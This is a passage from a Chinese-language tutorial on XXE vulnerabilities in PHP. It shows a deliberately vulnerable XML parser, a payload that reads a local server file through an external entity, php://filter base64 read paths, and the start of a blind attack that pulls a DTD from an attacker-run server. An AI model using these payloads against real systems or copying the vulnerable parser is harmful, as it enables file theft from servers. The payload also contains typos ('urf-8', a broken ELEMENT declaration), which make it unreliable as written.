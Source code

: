 

## 0x03 XML漏洞利用——有回显

在PHP中可以使用print_r()、echo输出想要输出的内容。
完整存在XXE漏洞代码如下：

```php
<?php
$xml = file_get_contents("php://input");
$data = simplexml_load_string($xml);
echo "<pre>";
print_r($data);    // 注释掉该语句即为无回显的情况
?>
```

以上代码需要POST请求，输入XML，这样就会被php://input接收到并被file_get_contents()函数转成字符串，然后由simplexml_load_string()函数转化成XML对象，print_r会输出对象全部信息，包括类信息。

POST请求数据部分修改XML内容如下：
```xml-dtd
<?xml version="1.0" encoding="urf-8"?>
<!DOCTYPE xxe [
<!EL    EMENT name ANY >
<!ENTITY xxe SYSTEM "file:///C:/Windows/win.ini">
]>
<root>
<name>&xxe;</name>
</root>
```

利用file://协议获取服务器本地的文件，通过print_r()函数回显。

读取文件可以用：

- file:///path/to/file.txt
- http://url/file.txt
- php://filter/read=convert.base64-encode/resource=conf.php

base64编码读出来的文件内容需要解码，Kali终端输入以下命令可以base64解码：
```
echo "base字符串" | base64 -d
```



## 0x04 XXE漏洞利用——无回显

首先环境假设有客户端A(攻击者)、服务端B、攻击者搭建的服务端C、资源（可以是B的本地或内网）。

A向B发送POST请求，并提交XML内容
```xml
<?xml version="1.0"?>

<!DOCTYPE foo SYSTEM "http://C的ip地址/test.dtd">
<foo>&e1;</foo>
```
